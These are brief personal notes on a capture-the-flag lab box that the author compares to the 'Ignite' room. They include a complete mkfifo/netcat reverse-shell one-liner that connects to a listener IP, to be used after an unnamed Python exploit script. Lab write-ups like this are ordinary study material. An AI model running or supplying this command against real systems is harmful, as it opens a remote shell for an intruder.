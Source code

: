 time to start the vulnerability of the capstones of the uh
-

1.) checkign out the page
- no bs this is the same ctf as the ignite one so this should just be quick notes
- use this command after using the python scipt
    - rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.107.89 1204 > /tmp/f

2.) end goal
- 
- ![image](https://github.com/TekTristan/cyber-rooms/assets/92371193/44983f86-5992-490b-af4c-a0f21904e301)
- i think its time to move onto mediums
